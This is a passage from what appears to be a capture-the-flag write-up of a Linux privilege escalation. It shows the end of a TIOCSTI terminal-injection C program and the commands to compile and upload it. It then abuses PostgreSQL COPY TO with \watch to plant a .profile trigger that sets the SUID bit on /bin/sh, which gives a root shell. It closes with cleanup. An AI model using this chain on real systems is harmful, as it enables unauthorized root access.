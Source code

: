 ```c
      ioctl(0, TIOCSTI, c);
    }
    // Terminate with new line
    ioctl(0, TIOCSTI, "\n");
    return 0;
  }
  return 1;
}
```
{:file="pushback.c"}

We compiled the program, copied it to the target, then used a `COPY TO` statement on the PostgreSQL server to copy the exploit trigger to `/var/lib/postgresql/.profile`{:.filepath}. The copied `.profile`{:.filepath} is deleted shortly after upload, but we can get around this using the `\watch` command.

```zsh
# Compile executable
gcc -static -o pushback pushback.c

# Copy program to target
scp pushback wesley@$rhost:/tmp/05dJPb.HiSv36
```
{:file="bryan@redteam ➤ zsh" .nolineno}

```bash
# The command we want to run as root - make SUID shell
cmd="chmod +s /bin/sh"

# Save COPY query to disk
cat << EOF > /tmp/05dJPb.azPl6p
copy (select '/tmp/05dJPb.HiSv36 "$cmd"') to '/var/lib/postgresql/.profile';
\watch 0.5
EOF

# (In another session) Continuously copy exploit trigger to .profile
psql -U download -h localhost -f /tmp/05dJPb.azPl6p
```
{:file="wesley@download (SSH) ➤ bash" .nolineno}

After waiting a couple of minutes, we found that our command had executed and added the SUID bit to `/bin/sh`{:.filepath}. We then simply executed `/bin/sh -p` to spawn a root shell.

* * *

Once we have the flags, we stop our processes, remove the SUID bit from `/bin/sh`{:.filepath}, and remove our files in `/tmp`{:.filepath}.

```zsh
# Clean up
chmod -s /bin/sh
rm -rf /tmp/05dJPb.*
```
{:file="root@download ➤ bash" .nolineno}